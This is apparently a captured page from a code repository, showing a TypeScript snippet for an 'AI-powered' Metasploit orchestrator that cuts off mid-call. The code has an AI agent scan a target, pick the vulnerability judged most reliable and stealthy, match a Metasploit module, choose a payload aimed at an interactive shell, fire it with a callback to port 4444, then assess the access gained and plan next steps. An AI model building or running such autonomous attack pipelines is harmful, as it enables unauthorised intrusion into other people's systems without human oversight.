 **AI-Powered Usage:**

```typescript
// src/exploits/ai-orchestrator.ts

class AIMetasploitOrchestrator {
  private msf: MetasploitIntegration;
  private ai: CyberAgent;

  async autoExploit(target: string): Promise<AttackReport> {
    // 1. Scan target
    console.log('[AI] Scanning target...');
    const vulns = await this.scanner.fullScan(target);

    // 2. AI selects best vulnerability to exploit
    console.log('[AI] Analyzing vulnerabilities...');
    const selected = await this.ai.selectExploit({
      vulnerabilities: vulns,
      criteria: ['reliability', 'stealth', 'impact']
    });

    console.log(`[AI] Selected: ${selected.vulnerability.title}`);
    console.log(`[AI] Reason: ${selected.reasoning}`);

    // 3. AI finds matching Metasploit module
    const exploits = await this.msf.listExploits();
    const match = await this.ai.matchExploit({
      vulnerability: selected.vulnerability,
      availableExploits: exploits
    });

    console.log(`[AI] Matched Metasploit module: ${match.exploit.fullname}`);
    console.log(`[AI] Confidence: ${match.confidence}%`);

    // 4. AI selects payload
    const payload = await this.ai.selectPayload({
      target: target,
      exploit: match.exploit,
      objective: 'interactive_shell'
    });

    console.log(`[AI] Selected payload: ${payload.name}`);

    // 5. Execute via Metasploit
    console.log('[AI] Launching exploit via Metasploit...');
    const session = await this.msf.executeExploit({
      exploit: match.exploit.fullname,
      target: target,
      payload: payload.name,
      lhost: await this.getLocalIP(),
      lport: 4444
    });

    // 6. AI analyzes what was gained
    console.log('[AI] Analyzing access level...');
    const access = await this.analyzeSession(session);

    console.log(`[AI] Access gained: ${access.user}@${access.hostname}`);
    console.log(`[AI] Privileges: ${access.privileges}`);

    // 7. AI suggests next steps
    const nextSteps = await this.ai.suggestNextSteps({
      session: session,
      access: access,
```